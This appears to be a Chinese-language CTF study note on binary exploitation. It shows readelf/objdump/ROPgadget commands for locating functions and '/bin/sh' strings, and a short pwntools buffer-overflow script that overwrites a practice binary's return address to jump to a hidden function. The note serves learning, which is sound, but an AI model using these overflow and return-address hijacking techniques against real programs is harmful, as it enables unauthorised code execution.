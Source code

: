 ![](imgs/pwn_stack07.jpg)

##### readelf

```sh
# header
readelf -h hide_and_seek
# Section Headers:
readelf -S hide_and_seek
readelf -s hide_and_seek # symbol table / functions

```

##### 如何找到 address? 如何查找函数

三种方式

```sh
sh$ objdump -M intel -d filename | less
sh$ objdump -d filename
sh$ objdump -d -j .plt ./ret2libc3 | grep system     //查找system的plt地址
sh$ ROPgadget --binary ./ret2libc3 --string "/bin/sh"       // 查找bin_sh字符串地址
gdb-peda$ p shell
r2$ afl~shell
```

反汇编语法设置默认为 AT&T 改为 Intel 语法： 相当于-M

```
set disassembly-flavor intel>~/.gdbinit
```

retn 返回 stack 栈顶的地址

```python
from pwn import *
r = process('./bof')

offset = 0x7fffffffe718 - 0x7fffffffe700
hidden = 0x00400566

r.sendline('a'*offset + p64(hidden))

r.interactive()
```

进入 gets 前，和 gets 的 retn 对应 offset
![](imgs/pwn_stack08.jpg)

retn

![](imgs/pwn_stack09.jpg)

#### bof - ret2shellcode

- 透过 Buffer Overflow 改赞 return address
